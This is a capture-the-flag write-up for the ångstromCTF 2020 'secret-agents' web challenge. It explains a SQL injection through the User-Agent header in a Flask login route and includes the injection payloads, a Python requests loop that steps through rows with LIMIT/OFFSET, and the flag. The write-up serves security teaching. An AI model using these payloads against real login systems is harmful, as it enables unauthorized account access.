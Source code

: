 # secret-agents
Web, 110

> Can you enter the secret agent portal? I've heard someone has a flag :eyes:
> Our insider leaked the source, but was "terminated" shortly thereafter...
> Linked: https://agents.2020.chall.actf.co, app.p<span></span>y

For a while this kept going down due to pool exhaustion, but I removed it and it stabilised.

There seem to be a lot of commented code ~~from my attempts at a rate-limit hotfix~~, but the main issue we see is here:
```python
for r in cursor.execute("SELECT * FROM Agents WHERE UA='%s'"%(u), multi=True):
```
under the `/login` function.

The sql statement is vulnerable to injections!
Tracing where `u` is from, we find:
```python
u = request.headers.get("User-Agent")
```

So, this seems like an injection via the User-Agent. Simple enough. One thing to keep in mind is that we can only select 1 agent at a time, due to this line:
```python
if len(res) > 1:
```

You can use whatever interface you want to set the User-Agent, but I used Python + requests.

Anyway, we set our User-Agent header to `' OR 1=1;-- ` (mind the space).

However, this triggers the previously mentioned line of code, and we are faced with:
`hey! close, but no bananananananananana!!!! (there are many secret agents of course)`

So, we look into ways to limit it. Of course, MySQL has a `LIMIT`, so we implement it.
Our User-Agent now looks like `' OR 1=1 LIMIT 1;-- `.

Now, we can see that we're logged in as GRU (from Despicable Me). The only logical way to proceed now is to iterate through all the users, using something like Python:
```python
import requests

i=0
while True:
    p = requests.get("https://agents.2020.chall.actf.co/login", headers={
        "User-Agent": f"' OR 1=1 LIMIT 1 OFFSET {i};-- "
    })

    if "actf" in p.text:
        print(p.text)
        break

    i += 1;
```

Note that the `OFFSET` keyword is used to get the `i`th agent.

Flag: `actf{nyoom_1_4m_sp33d}`